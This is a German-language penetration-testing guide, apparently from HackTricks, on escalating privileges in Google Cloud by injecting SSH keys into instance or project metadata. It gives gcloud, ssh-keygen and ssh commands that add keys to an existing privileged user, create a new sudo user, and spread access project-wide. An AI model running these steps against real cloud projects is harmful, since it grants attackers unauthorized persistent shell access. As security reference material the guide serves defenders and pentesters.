 # GCP - Fügen Sie benutzerdefinierte SSH-Metadaten hinzu

## GCP - Fügen Sie benutzerdefinierte SSH-Metadaten hinzu

{{#include ../../../../banners/hacktricks-training.md}}

### Modifizieren der Metadaten <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Die Modifikation der Metadaten auf einer Instanz könnte zu **erheblichen Sicherheitsrisiken führen, wenn ein Angreifer die erforderlichen Berechtigungen erlangt**.

#### **Eingliederung von SSH-Schlüsseln in benutzerdefinierte Metadaten**

Auf GCP führen **Linux-Systeme** häufig Skripte aus der [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) aus. Ein kritischer Bestandteil davon ist der [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), der dazu entworfen wurde, **regelmäßig** den Metadaten-Endpunkt der Instanz auf **Updates der autorisierten SSH-Öffentlichen Schlüssel** zu überprüfen.

Daher, wenn ein Angreifer benutzerdefinierte Metadaten modifizieren kann, könnte er den Daemon dazu bringen, einen neuen öffentlichen Schlüssel zu finden, der verarbeitet und **in das lokale System integriert** wird. Der Schlüssel wird in die Datei `~/.ssh/authorized_keys` eines **bestehenden Benutzers hinzugefügt oder möglicherweise wird ein neuer Benutzer mit `sudo`-Berechtigungen erstellt**, abhängig vom Format des Schlüssels. Und der Angreifer wird in der Lage sein, den Host zu kompromittieren.

#### **SSH-Schlüssel zu bestehendem privilegierten Benutzer hinzufügen**

1. **Vorhandene SSH-Schlüssel auf der Instanz überprüfen:**

- Führen Sie den Befehl aus, um die Instanz und ihre Metadaten zu beschreiben, um vorhandene SSH-Schlüssel zu lokalisieren. Der relevante Abschnitt in der Ausgabe befindet sich unter `metadata`, speziell dem Schlüssel `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Achten Sie auf das Format der SSH-Schlüssel: Der Benutzername steht vor dem Schlüssel, getrennt durch einen Doppelpunkt.

2. **Textdatei für SSH-Schlüssel-Metadaten vorbereiten:**
- Speichern Sie die Details der Benutzernamen und ihrer entsprechenden SSH-Schlüssel in einer Textdatei namens `meta.txt`. Dies ist wichtig, um die vorhandenen Schlüssel zu erhalten, während neue hinzugefügt werden.
3. **Neuen SSH-Schlüssel für den Zielbenutzer (`alice` in diesem Beispiel) generieren:**

- Verwenden Sie den Befehl `ssh-keygen`, um einen neuen SSH-Schlüssel zu generieren, wobei sichergestellt wird, dass das Kommentarfeld (`-C`) mit dem Zielbenutzernamen übereinstimmt.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Fügen Sie den neuen öffentlichen Schlüssel zu `meta.txt` hinzu, indem Sie das Format nachahmen, das in den Metadaten der Instanz gefunden wird.

4. **Metadaten des SSH-Schlüssels der Instanz aktualisieren:**

- Wenden Sie die aktualisierten SSH-Schlüssel-Metadaten auf die Instanz an, indem Sie den Befehl `gcloud compute instances add-metadata` verwenden.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Zugriff auf die Instanz mit dem neuen SSH-Schlüssel:**

- Stellen Sie eine Verbindung zur Instanz mit SSH unter Verwendung des neuen Schlüssels her und greifen Sie auf die Shell im Kontext des Zielbenutzers (`alice` in diesem Beispiel) zu.

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Einen neuen privilegierten Benutzer erstellen und einen SSH-Schlüssel hinzufügen**

Wenn kein interessanter Benutzer gefunden wird, ist es möglich, einen neuen zu erstellen, dem `sudo`-Berechtigungen erteilt werden:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH-Schlüssel auf Projektebene <a href="#sshing-around" id="sshing-around"></a>

Es ist möglich, den Zugriff auf SSH auf mehrere virtuelle Maschinen (VMs) in einer Cloud-Umgebung zu erweitern, indem **SSH-Schlüssel auf Projektebene angewendet werden**. Dieser Ansatz ermöglicht den SSH-Zugriff auf jede Instanz innerhalb des Projekts, die nicht ausdrücklich die projektweiten SSH-Schlüssel blockiert hat. Hier ist eine zusammengefasste Anleitung:

1. **SSH-Schlüssel auf Projektebene anwenden:**

- Verwenden Sie den Befehl `gcloud compute project-info add-metadata`, um SSH-Schlüssel aus `meta.txt` zu den Metadaten des Projekts hinzuzufügen. Diese Aktion stellt sicher, dass die SSH-Schlüssel in allen VMs des Projekts erkannt werden, es sei denn, eine VM hat die Option "Projektweite SSH-Schlüssel blockieren" aktiviert.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH in Instanzen mit projektweiten Schlüsseln:**
- Mit den projektweiten SSH-Schlüsseln können Sie in jede Instanz innerhalb des Projekts SSH-en. Instanzen, die projektweite Schlüssel nicht blockieren, akzeptieren den SSH-Schlüssel und gewähren Zugriff.
- Eine direkte Methode, um in eine Instanz SSH zu gelangen, ist die Verwendung des Befehls `gcloud compute ssh [INSTANCE]`. Dieser Befehl verwendet Ihren aktuellen Benutzernamen und die auf Projektebene festgelegten SSH-Schlüssel, um den Zugriff zu versuchen.

## Referenzen

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}

